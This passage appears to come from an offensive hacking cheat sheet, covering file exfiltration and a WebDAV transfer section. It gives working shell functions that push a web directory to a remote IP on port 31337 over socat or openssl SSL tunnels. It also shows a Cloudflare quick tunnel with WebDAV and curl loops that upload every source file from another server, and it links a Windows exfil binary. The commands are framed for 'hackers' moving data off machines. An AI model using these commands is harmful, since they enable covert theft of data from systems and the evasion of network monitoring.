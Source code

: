Sender:
```posh
# Copy the ssl.pem from the Receiver to the Sender and send directory named 'warez'
IP=1.2.3.4
PORT=31337
# Using rsync + socat-ssl
up1() {
   rsync -ahPRv -e "bash -c 'socat - OPENSSL-CONNECT:${IP:?}:${PORT:-31337},cert=ssl.pem,cafile=ssl.pem,verify=0' #" -- "$@"  0:
}
# Using rsync + openssl
up2() {
   rsync -ahPRv -e "bash -c 'openssl s_client -connect ${IP:?}:${PORT:-31337} -servername example.com -cert ssl.pem -CAfile ssl.pem -quiet 2>/dev/null' #" -- "$@"  0:
}
up1 /var/www/./warez
up2 /var/www/./warez
```

Rsync can be combined to exfil via [https / cloudflared raw TCP tunnels](https://iq.thc.org/tunnel-via-cloudflare-to-any-tcp-service).  
(To exfil from Windows, use the rsync.exe from the [gsocket windows package](https://github.com/hackerschoice/binary/raw/main/gsocket/bin/gs-netcat_x86_64-cygwin_full.zip)). A noisier solution is [syncthing](https://syncthing.net/).

Pro Tip: Lazy hackers just type `exfil` on segfault.net.

---
<a id="webdav"></a>
### 4.ix. File transfer - using WebDAV

On the receiver (e.g. segfault.net) start a Cloudflare-Tunnel and WebDAV:
```sh
cloudflared tunnel --url localhost:8080 &
# [...]
# +--------------------------------------------------------------------------------------------+
# |  Your quick Tunnel has been created! Visit it at (it may take some time to be reachable):  |
# |  https://example-foo-bar-lights.trycloudflare.com                                          |
# +--------------------------------------------------------------------------------------------+
# [...]
wsgidav --port=8080 --root=.  --auth=anonymous
```

On another server:
```sh
# Upload a file to your workstation
curl -T file.dat https://example-foo-bar-lights.trycloudflare.com
# Create a directory remotely
curl -X MKCOL https://example-foo-bar-lights.trycloudflare.com/sources
# Create a directory hirachy remotely
find . -type d | xargs -I{} curl -X MKCOL https://example-foo-bar-lights.trycloudflare.com/sources/{}
# Upload all *.c files (in parallel):
find . -name '*.c' | xargs -P10 -I{} curl -T{} https://example-foo-bar-lights.trycloudflare.com/sources/{}
```

